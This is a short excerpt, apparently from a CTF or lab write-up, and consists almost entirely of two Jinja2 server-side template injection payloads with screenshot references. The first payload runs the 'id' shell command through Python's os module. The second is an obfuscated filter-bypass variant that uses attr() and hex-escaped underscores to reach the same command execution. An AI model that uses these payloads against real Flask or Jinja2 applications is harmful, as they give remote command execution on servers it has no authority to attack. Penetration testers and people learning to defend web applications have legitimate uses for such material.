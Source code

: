 ![image.png](image%2013.png)

**PAYLOAD:**

```powershell
{{request.application.globals.builtins.import('os').popen('id').read()}}
```

![image.png](image%2014.png)

`urlencode "{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}"`
